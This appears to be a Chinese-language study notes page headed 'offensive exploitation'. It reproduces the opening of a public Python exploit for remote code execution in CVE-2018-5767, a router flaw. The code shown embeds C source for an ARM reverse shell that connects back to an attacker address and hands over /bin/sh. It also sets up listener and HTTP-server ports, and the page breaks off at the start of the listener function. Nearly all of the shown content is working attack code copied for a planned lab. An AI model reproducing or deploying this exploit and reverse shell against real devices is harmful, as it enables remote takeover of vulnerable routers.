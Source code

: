 ### 进攻利用

这里可以先抄一抄博客上的，其他的等实验环境搭建好了后再修改





#### 远程执行代码

```
#!/usr/bin/env python
# EDB Note ~ Source: https://www.fidusinfosec.com/remote-code-execution-cve-2018-5767/
import urllib2
import struct
import time
import socket
from optparse import *
import SimpleHTTPServer
import SocketServer
import threading
import sys
import os
import subprocess
 
ARM_REV_SHELL = (
"#include <sys/socket.h>\n"
"#include <sys/types.h>\n"
"#include <string.h>\n"
"#include <stdio.h>\n"
"#include <netinet/in.h>\n"
"int main(int argc, char **argv)\n"
"{\n"
"           struct sockaddr_in addr;\n"
"           socklen_t addrlen;\n"
"           int sock = socket(AF_INET, SOCK_STREAM, 0);\n"
 
"           memset(&addr, 0x00, sizeof(addr));\n"
 
"           addr.sin_family = AF_INET;\n"
"           addr.sin_port = htons(%d);\n"
"           addr.sin_addr.s_addr = inet_addr(\"%s\");\n"
 
"           int conn = connect(sock, (struct sockaddr *)&addr,sizeof(addr));\n"
 
"           dup2(sock, 0);\n"
"           dup2(sock, 1);\n"
"           dup2(sock, 2);\n"
 
"           system(\"/bin/sh\");\n"
"}\n"
)
 
REV_PORT = 31337
HTTPD_PORT = 8888
DONE = False
 
"""
* This function creates a listening socket on port
* REV_PORT. When a connection is accepted it updates
* the global DONE flag to indicate successful exploitation.
* It then jumps into a loop whereby the user can send remote
* commands to the device, interacting with a spawned /bin/sh
* process.
"""
def threaded_listener():
```